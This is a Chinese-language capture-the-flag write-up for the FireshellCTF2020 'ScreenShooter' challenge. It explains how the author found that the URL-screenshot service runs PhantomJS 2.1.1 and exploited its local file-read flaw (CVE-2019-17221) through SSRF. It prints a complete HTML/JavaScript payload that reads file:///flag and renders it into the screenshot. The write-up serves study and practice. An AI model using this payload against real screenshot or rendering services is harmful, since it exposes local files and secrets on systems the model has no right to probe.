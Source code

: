 # \[FireshellCTF2020]ScreenShooter

## \[FireshellCTF2020]ScreenShooter

## 考点

* `PhantomJS` 2.1.1任意文件读取漏洞
* SSRF

## wp

只有一个功能点，对输入的URL进行访问，然后返回截图。

比如输入百度的URL就会返回它的截图

![](../.gitbook/assets/image-20210125220405236.png)

![](../.gitbook/assets/image-20210125220422610.png)

既然是访问了这个URL，那就生成个URL让它访问，看一下返回的信息

在 https://beeceptor.com/ 上生成一个临时域名，让这个题目访问，可以看到访问的请求头

![](<../.gitbook/assets/image (4) (1).png>)

```
  "user-agent": "Mozilla/5.0 (Unknown; Linux x86_64) AppleWebKit/538.1 (KHTML, like Gecko) PhantomJS/2.1.1 Safari/538.1",
```

可以看到用的是`PhantomJS`

`PhantomJS` 2.1.1是有任意文件读取漏洞的，CVE-2019-17221。可以使用`XMLHttpRequest`和`file://`去读取本地文件，利用方式如下

1.在自己服务器上放个index.html，内容如下

```html
<!DOCTYPE html>
<html>
<head>
<title>3webdogs</title>
</head>
<body>
<script>
flag=new XMLHttpRequest;
flag.onload=function(){
    document.write(this.responseText)
};
flag.open("GET","file:///flag");
flag.send();
</script>
</body>
</html>
```

2.让题目访问 http://服务器地址/index.html 即可

![](../.gitbook/assets/image-20210125221937478.png)

最后用OCR识别一下就行了

## 小结

1. 关注CVE
